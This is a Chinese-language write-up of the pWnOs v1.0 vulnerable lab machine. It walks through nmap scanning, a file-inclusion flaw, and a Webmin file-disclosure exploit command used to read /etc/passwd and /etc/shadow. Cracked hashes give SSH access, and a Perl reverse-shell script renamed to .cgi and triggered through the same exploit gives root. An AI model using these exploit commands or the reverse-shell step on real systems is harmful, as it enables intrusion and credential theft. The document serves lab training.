# pWnOs_v1.0（√）

## nmap扫描  

```
PORT      STATE SERVICE     VERSION
22/tcp    open  ssh         OpenSSH 4.6p1 Debian 5build1 (protocol 2.0)
| ssh-hostkey: 
|   1024 e4:46:40:bf:e6:29:ac:c6:00:e2:b2:a3:e1:50:90:3c (DSA)
|_  2048 10:cc:35:45:8e:f2:7a:a1:cc:db:a0:e8:bf:c7:73:3d (RSA)
80/tcp    open  http        Apache httpd 2.2.4 ((Ubuntu) PHP/5.2.3-1ubuntu6)
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.2.4 (Ubuntu) PHP/5.2.3-1ubuntu6
139/tcp   open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: MSHOME)
445/tcp   open            Samba smbd 3.0.26a (workgroup: MSHOME)
10000/tcp open  http        MiniServ 0.01 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
MAC Address: 00:0C:29:5E:18:C9 (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.26a)
|   Computer name: ubuntuvm
|   NetBIOS computer name: 
|   Domain name: nsdlab
|   FQDN: ubuntuvm.NSDLAB
|_  System time: 2024-03-07T05:03:26-06:00
|_nbstat: NetBIOS name: UBUNTUVM, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
|_clock-skew: mean: 3h00m00s, deviation: 4h14m34s, median: 0s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 41.69 seconds

```

## 目录扫描




## web渗透  


一点进来发现这个参数试着sql注入，根据warning发现这个是文件包含  
  
```
vmware:x:1000:1000:vmware,,,:/home/vmware:/bin/bash
obama:x:1001:1001::/home/obama:/bin/bash
osama:x:1002:1002::/home/osama:/bin/bash
yomama:x:1003:1003::/home/yomama:/bin/bash
```
1000端口是个webmin cms  
  
/php目录有一个phpmyadmin，但是需要账号密码，然后发现了css漏洞，暂时没什么用  
  
//就在我没有思路的时候，才开始看视频  
  
webmin利用这个漏洞，英文的意思是任意文件泄露，因为我之前找了很久都没有找到webmin的版本号，这么多exp自然不知道利用哪个，但视频里直接根据exp描述而去尝试这些exp  
然后利用pl文件成功读取到/etc/passwd文件，同时利用webmin还能读取shadow文件  
```
perl 2017.pl 192.168.25.116 10000 /etc/shadow 0
```
  
然后使用rockyou.txt破解这些hash，一个小技巧，靶机中的密码基本上会出现在rockyou.txt中，结果只有一个  
  

## 获得初始shell

ssh连接尝试，提示报错，然后我们使用-o然后tab键查看需要的参数  
  
  

## 提权  

suid发现mtr，但其只是能读取文件  
  
linux版本 2.6.22  
  
通常内核漏洞提权最后考虑  
在我们之前通过webmin访问shadow文件时我们应该知道，webmin用户可能有特殊权限  
  
这个时候我们需要反弹webmin shell  
```
cp /usr/share/webshells/perl/perl-reverse-shell.pl shell.cgi
```
这里将反弹shell脚本改成cgi后缀，然后使用perl执行  
```
perl 2017.pl 192.168.25.116 10000 /tmp/shell.cgi 0
```
之所以改成cgi后缀，是因为webmin是perl搭建的web程序，解释器只能解释cgi文件，如果上传pl后缀文件则不能收到反弹shell，监听即可获得root shell  


## 总结  

+ web页面很容易发现了第一个lfi
+ webmin的exp利用没能想到，因为不知道版本号就不知道该用哪一个
+ 虽然楼上lfi，但是权限不同，以致可以访问shadow
+ 因为webmin的特殊权限，所以提权也应该想到这里
+ perl执行cgi文件也是初次了解到